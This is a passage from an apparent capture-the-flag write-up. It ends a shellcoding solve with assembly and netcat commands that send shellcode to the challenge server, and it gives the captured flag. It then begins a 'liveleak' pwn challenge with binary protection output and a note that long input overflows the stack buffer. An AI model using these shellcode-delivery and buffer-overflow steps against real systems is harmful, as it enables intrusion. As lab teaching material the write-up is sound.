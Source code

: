 Assemble the shellcode:

```
nasm shellcode.asm -o shellcode.bin
```

Solve:

```
(cat shellcode.bin; cat) | nc 34.133.69.112 10001
```

Flag: `umcs{shellcoding_78b18b51641a3d8ea260e91d7d05295a}`

## liveleak (Pwn)

> No desc
> 
> 34.133.69.112 port 10007 

The binary given to us is 64-bit LSB, and not stripped so we can read debug symbols.

```
root@680c16871c99:/ctf# file chall
chall: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter ./ld-2.35.so, BuildID[sha1]=7d6f66121cf284f635caeac3b61124cc373b667c, for GNU/Linux 3.2.0, not stripped
```

Protections:

```
root@a256f1cdbc73:/ctf# checksec chall
[*] '/ctf/chall'
    Arch:       amd64-64-little
    RELRO:      Partial RELRO
    Stack:      No canary found
    NX:         NX enabled
    PIE:        No PIE (0x3ff000)
    RUNPATH:    b'.'
    SHSTK:      Enabled
    IBT:        Enabled
    Stripped:   No
```


| Protection | Enabled | Usage |
| -------- | -------- | -------- |
| Canary     | ✘    | Prevent stack overflows     |
| NX     | ✔  | Disables code execution on the stack     |
| PIE     |   ✘ | Randomizes the binary's base address     |
| RelRO     | Partial    | Makes some sections of the binary read-only     |

The challenge just takes in user input.
If we send a very long string, we trigger a segfault, which means that we overflowed the buffer and the instruction pointer was overwritten.
